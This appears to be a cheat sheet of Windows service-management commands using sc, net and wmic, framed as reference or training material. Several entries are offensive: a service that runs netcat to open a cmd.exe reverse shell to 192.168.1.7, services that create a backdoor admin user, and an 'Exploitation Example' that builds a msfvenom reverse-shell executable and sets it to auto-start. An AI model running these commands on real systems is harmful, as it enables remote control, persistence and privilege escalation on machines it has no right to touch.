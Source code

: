 # Service-Controller-Utility-Commands

## Querying Services

#### Display Information About a Specified Service
```powershell
sc query
```

#### Display Extended Information About a Service
```powershell
sc queryex type= service
```

#### Display Services of Type 'Service'
```powershell
sc query type= service
```

#### Find Specific Service States
```powershell
sc query find "STATE"
```

#### Find a Specific Service by Name
```powershell
sc query | find "Telnet"
```

#### Query a Specific Service
```powershell
sc query LanmanServer
```

---

## Service Configuration

#### Display the Configuration of a Service
```powershell
sc qc Audiosrv
```

#### Stop a Service
```powershell
sc stop Audiosrv
```

#### Start a Service
```powershell
sc start Audiosrv
```

#### Pause a Service
```powershell
sc pause Audiosrv
```

#### Resume a Paused Service
```powershell
sc continue Audiosrv
```

#### Configure Service Startup and Login Accounts
```powershell
sc config Audiosrv
```

---

## Creating and Managing Services

#### Create a New Service
```powershell
sc create nc binPath= "C:\Windows\System32\nc64.exe"
```

#### Query the Configuration of a Created Service
```powershell
sc qc nc
```

#### Query the Status of a Created Service
```powershell
sc query nc
```

#### Start the Created Service
```powershell
sc start nc
```

#### Delete a Service
```powershell
sc delete nc
```

#### Configure a Service to Run a Specific Command
```powershell
sc config nc binPath= "C:\Windows\nc64.exe 192.168.1.7 4444 -e cmd.exe"
```

#### Create a Service to Send ICMP Packets
```powershell
sc create pingme binPath= "ping 192.168.1.6"
```

#### Start the ICMP Service
```powershell
sc start pingme
```

#### Create a User Creation Service
```powershell
sc create useradd binPath="net user u1 password@123 /add"
```

#### Start the User Creation Service
```powershell
sc start useradd
```

#### Configure a Service to Add a User to Administrators Group
```powershell
sc config useradd binpath= "net localgroup administrators u1 /add"
```

#### Start the Privilege Elevation Service
```powershell
sc start useradd
```

---

## Exploitation Example

#### Generate a Reverse Shell Executable Using msfvenom
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.6 LPORT=4455 -f exe > shell.exe
```

#### Configure a Service to Execute the Shell
```powershell
sc create msfvenom_shell binPath= "C:\Windows\Temp\shell.exe"
```

#### Change a Service's Startup Type
```powershell
sc config msfvenom_shell start=auto
```
- **auto** - Automatic Startup
- **demand** - Manual Startup
- **disabled** - Disabled

#### Restart the System Immediately
```powershell
shutdown /r /t 0 /f
```

---

# Service Management Using `net`

#### Start a Service Using `net`
```powershell
net start TlntSvr
```

#### Stop a Service Using `net`
```powershell
net stop TlntSvr
```

#### Pause a Service Using `net`
```powershell
net pause TlntSvr
```

#### Resume a Paused Service Using `net`
```powershell
net continue TlntSvr
```

---

# Using `wmic` to Manage Services

#### List All Services with Details
```powershell
wmic service get name, displayname, pathname, startmode
```

#### List All Auto-Start Services
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto"
```

#### List All Auto-Start Services Excluding Those in C:\Windows
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto" | findstr /i/v "c:\windows"
```

---

# Additional Resources

#### ServiceSecurityEditor

ServiceSecurityEditor is used to maintain and manage services, allowing manual configuration of permissions for users.

[Download ServiceSecurityEditor](https://www.coretechnologies.com/products/ServiceSecurityEditor/)

#### After Download
1. Run the application.
2. Select the service you want to configure.
3. Click "Open".
4. Add a user.
5. Select the user and set the required permissions.
6. Click "Apply" and then "OK".
